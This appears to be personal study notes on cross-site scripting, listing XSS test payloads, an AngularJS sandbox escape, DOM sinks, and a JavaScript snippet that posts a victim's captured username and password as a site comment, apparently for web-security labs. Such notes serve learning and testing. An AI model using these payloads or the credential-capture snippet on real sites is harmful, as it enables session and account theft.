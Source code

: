 # Notes On XSS

## Cheat Sheets

* [Cheat sheet from portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [Mind Maps](https://github.com/imran-parray/Mind-Maps?fbclid=IwAR2Fku5VnWSrzVygr45FL351mMVDSa_Cd7VLYSFX4Mu_SODksITAKeARujs)

## Where to test

* Comment sections of websites where inputted text is stored and reflected.
* Search functionalities where search terms are reflected or processed by any javascript function

## Test payloads

* ```<svg onload=alert(1)>```
* ```<img src=valid_location onload=alert(document.cookie) x="">
* ```<img src="invalid_location" onerror="alert()">```
* ```<a href=javascript:alert(document.domain) x=""> mairala </a>``` or ```<a href="javascript:alert(document.domain)">mairala<\a>```

## Dom invader

* Canary = keyword/unique word which goes inside any function
* Stack Trace last line takes to the line of the function itself

## AngularJS

* ```{{constructor.constructor('alert(1)')()}}``` >=1.6.0 unhandled angularjs sandboxs

## Other Uncategorized

* innerHTML sinks does not accept ```<script>``` or ```<svg onload>``` element 

## Js function bugs

* ```string.replace('<', '&lt;')``` only replaces the first instances. So feeding the function some extra elements will help to execute arbitrary code

## DOM xss Vulnerable sinks

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```javascript
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```javascript
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

## Javascript Get And Post Request Making

```javascript
//data to send -> arrange according to burp suite request
const data = `name=victimName&email=victim@gmail.com&csrf=${csrf}&postId=5&comment=username:_${username}_password:_${password}&
website=${website}`;

const url = "/post/comment";

//xhr object
var xhr = new XMLHttpRequest();
xhr.open("POST", url);
xhr.setRequestHeader("Accept", "application/json");
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded" );
xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
        console.log(xhr.status);
        console.log(xhr.responseText);
        }
    };
xhr.send(data);
```

## Useful html tags and attributes

* ```onfocus=alert()``` is a good way
  * ```<tag tabindex=1>``` enables pressing 1 tab and focus into the tag
  * ```<tag id=x>``` and ```#x``` after url tailing with tab=1 makes it focus on the intended tag